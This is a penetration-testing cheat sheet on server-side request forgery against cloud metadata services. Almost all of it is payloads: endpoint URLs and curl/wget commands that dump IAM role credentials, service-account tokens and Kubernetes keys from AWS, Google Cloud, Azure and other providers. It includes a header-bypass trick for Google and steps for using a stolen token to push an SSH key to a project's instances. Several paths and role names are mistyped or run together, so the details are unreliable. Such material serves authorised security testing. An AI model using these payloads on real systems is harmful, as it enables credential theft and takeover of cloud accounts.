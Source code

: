 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# SSRF In The Cloud

## Cloud Meta Data Service


The IP address ```169.254.169.254``` is used by AWS (EC2), Azure, Google, and DigitalOcean to bind the cloud provider's respective cloud metadata service to. This is used by cloud resources to query information about themselves. Some cloud providers will place constraints around this service. For example Google requires that the following header is included in all requests ```Metadata-Flavor: Google``` and refuses to accept requires with an ```X-Forwarded-For``` header set. AWS however does not place any constraints around requests.


### AWS

#### EC2

* This endpoint will return all of the roles that are attached to the current EC2 instance

```
http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

* In AWS if a EC2 instance needed to access an S3 bucket, a role can be assigned to the EC2 instance so the instance can access the S3 bucket without hard coding credentials. AWS will assigned the EC2 instance credentials to access the S3 bucket that are rotated on a regular basis. The below endpoint can be used to dump the credentials that AWS assigned to the EC2 instance.

```
http://169.254.169.254/latest/meta-data/iam/security-credentials/<ROLE_NAME_HERE>
```

#### ECS

* ECS is a logical group of EC2 instances. It allows for running applications without have to scale the cluster management infrastructure since ECS manages that. The metadata endpoints are different for a service running in ECS.

* The following endpoint ```http://169.254.170.2/v2/credentials/<GUID>``` will contain credentials for the ECS machine. The GUID is stored an environment variable called ```AWS_CONTAINER_CREDENTIALS_RELATIVE_URI``` and can be found in ```/self/proc/environ```. The bellow commands will retrieve the AccessKey, SecretKey and token from the metadata service.

```
curl "http://169.254.170.2/$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" 2>/dev/null || wget "http://169.254.170.2/$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" -O -
```

#### Elastic Beanstalk

* The below URLs can be used to obtain the ```acccountId``` and ```region``` from the metadata service.

```
http://169.254.169.254/latest/dynamic/instance-identity/document
http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
``` 


* The below URL can be used to retrieve the ```AccessKeyId```, ```SecretAccessKey```, and ```Token``` from the metadata service.

```
http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
```

* The credentials can then be used to access the S3 bucket with the below aws cli command.

```
aws s3 ls s3://elasticbeanstalk-us-east-2-[ACCOUNT_ID]/
```

* AWS Metadata Service Documentation: [https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html)
* Ghostlulz SSRF AWS Credentials: [http://ghostlulz.com/ssrf-aws-credentials/](http://ghostlulz.com/ssrf-aws-credentials/)


### Google Cloud

* The metadata service for google cloud requires that either of the following headers be sent with requests ```Metadata-Flavor: Google``` or ```X-Google-Metadata-Request: True```

* Recursively Pull Data

```
http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true
```
* Using ```v1beta1``` may bypass the header requirements 

```
http://metadata.google.internal/computeMetadata/v1beta1/
http://metadata.google.internal/computeMetadata/v1beta1/?recursive=true
```

* Obtain the public SSH key

```
http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys?alt=json
```

* Obtain the access token

```
http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token
```

* Obtain the Kubernetes key

```
http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/kube-env?alt=json
```


#### Steps to add an SSH key 

* Extract the token

```
http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token?alt=json
```

* Check the scope of the token

```
$ curl https://www.googleapis.com/oauth2/v1/tokeninfo?access_token=ya29.XXXXXKuXXXXXXXkGT0rJSA  

# Example Response 
{ 
        "issued_to": "101302079XXXXX", 
        "audience": "10130207XXXXX", 
        "scope": "https://www.googleapis.com/auth/compute https://www.googleapis.com/auth/logging.write https://www.googleapis.com/auth/devstorage.read_write https://www.googleapis.com/auth/monitoring", 
        "expires_in": 2443, 
        "access_type": "offline" 
}
```

* Use the token to push the SSH key to the to the google cloud server

```
curl -X POST "https://www.googleapis.com/compute/v1/projects/1042377752888/setCommonInstanceMetadata" 
-H "Authorization: Bearer ya29.c.EmKeBq9XI09_1HK1XXXXXXXXT0rJSA" 
-H "Content-Type: application/json" 
--data '{"items": [{"key": "sshkeyname", "value": "sshkeyvalue"}]}'
```


### Other Assorted Cloud Services

#### Digital Ocean

```
curl http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1.json
http://169.254.169.254/metadata/v1/ 
http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1/user-data
http://169.254.169.254/metadata/v1/hostname
http://169.254.169.254/metadata/v1/region
http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/addressAll in one request:
curl http://169.254.169.254/metadata/v1.json | jq
```

[https://developers.digitalocean.com/documentation/metadata/](https://developers.digitalocean.com/documentation/metadata/)


#### Packet Cloud

```
https://metadata.packet.net/userdata
```

#### Azure

* Need to have the header ```Metadata: true```

```
http://169.254.169.254/metadata/instance?api-version=2017-04-02
http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text
```

[https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service](https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service)

[https://azure.microsoft.com/en-us/blog/announcing-general-availability-of-azure-instance-metadata-service/](https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service)

#### Oracle Cloud

```
http://192.0.0.192/latest/
http://192.0.0.192/latest/user-data/
http://192.0.0.192/latest/meta-data/
http://192.0.0.192/latest/attributes/
```

#### Alibaba

```
http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/image-id
```

#### Rancher

```
curl http://rancher-metadata/<version>/<path>
```

#### Kubernetes ETCD

```
curl -L http://127.0.0.1:2379/version
curl http://127.0.0.1:2379/v2/keys/?recursive=true
```

#### Docker

```
http://127.0.0.1:2375/v1.24/containers/jsonSimple example
docker run -ti -v /var/run/docker.sock:/var/run/docker.sock bash
bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/containers/json
bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/images/json
```

